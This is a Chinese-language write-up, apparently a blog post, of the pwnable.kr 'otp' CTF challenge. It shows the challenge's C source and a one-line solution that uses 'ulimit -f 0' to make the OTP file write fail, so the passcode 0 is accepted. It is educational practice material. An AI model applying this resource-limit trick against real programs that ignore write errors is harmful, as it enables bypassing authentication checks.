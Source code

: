 ```yaml
---
title: kr_otp
date: 2020-02-10 10:01:07
tags:
- pwn
- pwnable.kr
---
```


# pwnable.kr otp

### 0x0 补充知识

[Pwnable.kr 提示之 otp 篇](https://www.jianshu.com/p/73c030cb12e0)

### 0x1 分析

看一下安全性：

<img src="https://i.loli.net/2020/02/10/OwSRxMryTeQAvhb.png" style="zoom:50%;" />

直接看源码吧：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>

int main(int argc, char* argv[]){
        char fname[128];
        unsigned long long otp[2];

        if(argc!=2){
                printf("usage : ./otp [passcode]\n");
                return 0;
        }

        int fd = open("/dev/urandom", O_RDONLY);	
        if(fd==-1) exit(-1);

        if(read(fd, otp, 16)!=16) exit(-1);		//get 16 bytes random
        close(fd);

        sprintf(fname, "/tmp/%llu", otp[0]);
        FILE* fp = fopen(fname, "w");					//first 8 bytes to new a file
        if(fp==NULL){ exit(-1); }
        fwrite(&otp[1], 8, 1, fp);						//last 8 bytes save at fname
        fclose(fp);

        printf("OTP generated.\n");

        unsigned long long passcode=0;
        FILE* fp2 = fopen(fname, "r");				
        if(fp2==NULL){ exit(-1); }
        fread(&passcode, 8, 1, fp2);					//get the last 8 bytes to long long	
        fclose(fp2);

        if(strtoul(argv[1], 0, 16) == passcode){
                printf("Congratz!\n");
                system("/bin/cat flag");
        }
        else{
                printf("OTP mismatch\n");
        }

        unlink(fname);
        return 0;
}
```

好像没有溢出的点。看了别人的提示说可以看看bash 的 `ulimit` 命令。

发现刚好原来可以这么玩。233333

我把师傅的提示和write up贴在下面了。

### 0x2 EXP

```bash
ulimit -f 0 && python -c "import os; os.system('./otp 0')"
```

[write up](https://github.com/JackoQm/CTF-Writeups/tree/master/Pwnable.kr/Rookiss/otp)

